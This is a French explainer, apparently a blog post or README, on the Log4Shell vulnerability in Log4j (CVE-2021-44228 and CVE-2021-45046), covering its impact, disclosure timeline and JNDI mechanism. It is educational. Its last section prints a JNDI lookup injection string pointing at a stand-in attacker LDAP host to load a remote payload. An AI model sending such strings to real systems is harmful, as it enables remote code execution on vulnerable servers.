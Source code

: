 # Log4J, Log4Shell, LogJam mais kesako ?

On en entend parlé partout.
Sur twiter, sur linkedin, sur les blogs et forums de securité, la faille Log4J ( [CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228) / [CVE-2021-45046](https://nvd.nist.gov/vuln/detail/CVE-2021-45046) pour les intimes ) !

## Alors qu'est ce que log4j et qui est ciblé cette faille.

Log4J est le diminutif de "logging for java", il s'agit d'un outil de journalisation pour les progammes informatiques écrits en java.
C'est l'outil le plus courrement utilisé pour ce besoin, la plus part des programmes java l'utilise et c'est justement la popularité de cet outil, qui fait trembler internet ces derniers jours..
On le retrouve PARTOUT !! Apple, Amazon, IBM, Cloudflare, Twitter, Steam, Minecraft et [bien d'autre..](https://github.com/NCSC-NL/log4shell)

## Quels sont les impactes de cette faille ?

La faille log4j et l'une des plus grosse faille de sécurité découverte cette derniére décénie. Le score de criticité de celle ci est au plus haut (CVSS 10/10) et permet une compromission complete de la machine cible.

Elle permet une [RCE ( Remote Code Execution )](https://en.wikipedia.org/wiki/Arbitrary_code_execution) c'est à dire, l'execution de code, souvent malicieux, à distance.
Oui oui, sans authentification, sans mot de passe, juste avec un message dans un chat (ou n'importe quelle entrée utilisateur, comme un champs dans un formulaire), on demande au serveur, d'executer du code.


## Comment en est on arrivé la ?

Le jeudi 9 décembre, la faille a été publiée sur internet, [aux yeux de tous](https://github.com/tangxiaofeng7/CVE-2021-44228-Apache-Log4j-Rce)
Sans laisser le temps aux développers de log4j de préparer la publication d'un patch de correction..

Le vendredi 10 décembre, la CVE est déclarée: https://nvd.nist.gov/vuln/detail/CVE-2021-44228
Un premier patch de correction de log4j est publié, mais la correction est incompléte et l'exploit toujours faisable.
Un second patch de correction est publié pour corriger la faille, mais il ne faudra que quelque jours aux pirates pour la déjouer,
ce qui donne lieux le 14 décembre à une nouvelle cve (CVE-2021-45046)

Rapidement, une nouvelle version de log4j sort (2.16.0) et doit fixer de maniére définitive ces deux CVE.

D'aprés Matthew Prince, CEO de Cloudflare, la premiere tentative d'exploitation de cette faille sur leurs infrastructures date du [1er décembre a 4:36:50 UTC](https://twitter.com/eastdakota/status/1469800951351427073) soit 9 jours avant que la CVE soit déclarée. Les recherches de possible compromission doivent donc étre ciblé a partie de cette date.

Le vecteur d'attaque qui a été utilisé (la methode), ne date pas de décembre 2021
[Des conferences en 2013 et 2016 lors de la blackhat US](https://www.blackhat.com/docs/us-16/materials/us-16-Munoz-A-Journey-From-JNDI-LDAP-Manipulation-To-RCE.pdf) avait déja mis en lumiére ce vecteur d'attaque.
Mais personne ne l'avait testé sur log4j...

## Mais alors concrétement, comment ça marche ?

La faille réside dans l'implémentation du module "Java Naming and Directory Interface" de log4j.
Ce module permet de charger dynamiquement du code distant via plusieurs protocol comme ldap, rmi, dns, etc..

Lorsque log4j va vouloir journaliser une donnée utilisateur (un message dans un chat, un champ dans un formulaire, ..) plutot que prendre la donnée au format texte pour la journaliser, log4j va l'interpreter en language java résultant de la faille de sécurité.

Il est donc possible, de préparer un message spécifique pour injecter du code malveillant.
Par example, la commande suivante dans le chat du jeux minecraft, va connecter toute les personnes au serveur ldap "attackerserver.com" puis executer la fonction java "ExploitPayload"
```bash
${jndi:ldap://attackerserver.com:1389/ExploitPayload}
```

![](https://www.stormshield.com/wp-content/uploads/log4shell-1-1024x410.png)
